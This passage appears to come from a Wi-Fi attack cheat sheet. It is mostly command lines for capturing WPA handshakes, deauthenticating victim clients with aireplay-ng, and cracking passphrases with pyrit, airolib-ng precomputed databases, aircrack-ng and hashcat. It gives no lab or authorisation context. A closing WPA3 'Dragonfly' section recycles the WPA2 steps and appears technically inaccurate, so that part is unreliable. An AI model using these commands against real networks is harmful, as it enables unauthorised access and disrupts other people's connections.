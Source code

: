 airmon-ng start wlan0

airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

pyrit -r <FileName-01.cap> -b <BSSID> -i <Wordlist> attack_passthrough

Precompute database

pyrit -i <Wordlist> import_passwords

pyrit -e <ESSID> create_essid

pyrit batch

pyrit -r <FileName-01.cap> attack_db

### Method 7 - Precomputed WPA Keys Database Attack
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

echo "<ESSID>" > ESSID.txt

airolib-ng NEW_DB --import essid ESSID.txt

airolib-ng NEW_DB --import passwd <DictionaryFile>

airolib-ng NEW_DB --clean all

airolib-ng NEW_DB --batch

airolib-ng NEW_DB --stats

airolib-ng NEW_DB --verify all

aircrack-ng -r NEW_DB <FileName-01.cap>

#### WPA3 CONSIDERATIONS (Limited as of 2025)
### Reconnaissance
Check for WPA3 with airodump-ng (shows "WPA3" or "SAE" in encryption)

### Dragonfly Handshake Attack
Capture handshake

airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

Convert to Hashcat format

hcxtools -o <FileName>.hc22000 <FileName-01.cap>

Crack (requires strong GPU and wordlist)

hashcat -m 22000 -a 0 <FileName>.hc22000 <WordlistFile>

Note - WPA3 is resistant; success depends on weak passwords
